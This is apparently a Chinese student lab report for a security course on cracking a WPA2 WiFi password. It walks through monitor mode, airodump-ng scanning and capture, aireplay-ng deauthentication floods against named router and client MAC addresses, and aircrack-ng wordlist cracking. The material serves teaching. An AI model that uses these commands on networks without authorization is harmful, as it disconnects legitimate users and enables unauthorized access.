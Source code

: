 # WIFI渗透--作业1： WIFI密码破解

## 实验准备

1.虚拟机 kali Linux

2.有监听功能的网卡 RT3070

3.aircrack-ng kali内置的无线攻击软件

## 实验过程

#### 1.虚拟机安装无线网卡

- 分配无线网卡给linux（主要网卡现在不能连接WiFi）

  ![分配网卡](img\分配网卡.png)

  ![查看网卡2](img\查看网卡2.png)

- 开启网卡监听模式，在监听模式下，无线网卡的名称已经变为了wlan0mon

  ![开启监听1](img\开启监听1.png)

  ![开启监听2](C:\Users\DELL\Desktop\大三下课程作业\移动互联网安全\WiFi渗透-魏迎迎-2019302120088\img\开启监听2.png)

- 重启一下网卡

  ```bash
   sudo ifconfig wlan0mon down
   sudo iwconfig wlan0mon mode monitor
   sudo ifconfig wlan0mon up 
  ```

  ![重启网卡](img\重启网卡.png)

#### 2.探测

- 扫描周围无线网络

  什么也没找到

- ```bash
  sudo airodump-ng wlan0mon
  ```

  ![扫描wifi](img\扫描wifi.png)

- 重新选择USB3.0(XHCI)控制器,重新探测，成功。

  ![更改usb设置](img\更改usb设置.png)

- 观察到**ESSID**是周围wifi的名字，最左侧的**BSSID**是这些wifi对应的mac地址。**ENC**是加密方式。**CH**是工作频道。

  可以看到基本都是WPA2的，很少有WPA和WEP,因为这两个的安全性都较WPA2差。

  ![探测wifi](img\探测wifi.png)

- 接下来要破解图中的FAST_1041BA。可以看到它的mac地址是1C:FA:68:10:41:BA，它的工作频道是1。

#### 3.利用airodump-ng进行抓包

- 使用airodump-ng这个工具进行抓包，可以看到有三个连接（客户端是电脑、手机以及ipad）。

  ```bash
  #--bssid 是路由器的mac地址
  #-w 是写入到文件longas中
  #-c 11 是频道11
  #--ivs 是只抓取可用于破解的IVS数据报文
  sudo airodump-ng –w longas -c 1 --bssid 1C:FA:68:10:41:BA --ivs wlan0mon
  ```

  ![抓包](img\抓包.png)

#### 4.利用crunch生成字典进行攻击

- 利用以下命令洪水攻击，设置攻击15次。

- 为了获得破解所需的WPA2握手验证的整个完整数据包，发送一种称之为“Deauth”的数据包来将已经连接至无线路由器的合法无线客户端强制断开，此时，客户端就会自动重新连接无线路由器，这样就有机会捕获到包含WPA2握手验证的完整数据包了。

  ```bash
  #新开一个shell
  #-0 采用deauth攻击模式，一直不断的攻击，类似于拒绝服务攻击，占满你的握手请求通道，其他的连接进不来，也可以让当前所有连接断开
  #-a 后跟路由器的mac地址
  #-c 后跟客户端的mac地址
    sudo aireplay-ng -0 15 –a 1C:FA:68:10:41:BA  -c BE:A9:57:76:88:26 wlan0mon
  
  ```

  ![洪水攻击](img\洪水攻击.png)

- 停掉洪水攻击，连接一下模拟别人连接，出现WPA handshake就表示成功。

  ![出现WPA handshake](img\出现WPA handshake.png)

#### 5.利用aircrack-ng进行爆破

- 抓到握手包那么就可以用密码字典进行爆破了(wifi-1.cap)

- ls查看抓包名称---longas-01.ivs

  ![查看包名字](img\查看包名字.png)

- 准备一个字典爆破---code.txt(为了节省时间字典中直接加入密码)

  ```bash
  sudo aircrack-ng -w code.txt longas-04.ivs
  ```

  ![爆破成功](img\爆破成功.png)



# 实验中遇到的问题

 1.扫描周围WiFi什么也没找到

**解决方法：更改usb设置为USB 3.0 (xHCI)控制器**

# 参考

[使用Aircrack-ng进行wifi渗透](https://www.jianshu.com/p/fd16236057df)

# 总结

**WLAN的设备**
WLAN主要由接入点（Access Point，AP）和客户端（Station，STA）组成
**接入点AP**

- 类似于有线局域网中的交换器
- 负责管理客户端，协调无线与有线网络之间的通信
  **客户端STA**
- 安装有无线网卡的计算机

**WEP（有线等效保密）认证过程：**

1. 客户端向接入点发送认证请求
2. 接入点发回一段明文
3. 客户端利用事先共享的密钥加密这段明文（对称），并再次发出认证请求
4. 接入点对数据包进行解密，比较明文，来决定是否接受请求